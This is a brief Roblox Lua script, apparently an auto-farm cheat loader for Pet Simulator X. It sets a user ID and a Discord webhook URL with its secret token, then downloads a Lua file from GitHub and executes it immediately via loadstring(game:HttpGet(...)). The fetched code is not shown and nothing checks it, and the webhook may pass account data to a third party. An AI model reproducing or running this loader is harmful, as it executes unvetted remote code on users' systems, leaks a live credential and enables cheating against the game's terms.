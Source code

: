 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1079004945623289886/BYjOxUGcXVCOXa5TrqcIouoXWbkOZie0-yxJhxqNylcCgR25JQR06xRn14LPMOq9PJh8"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
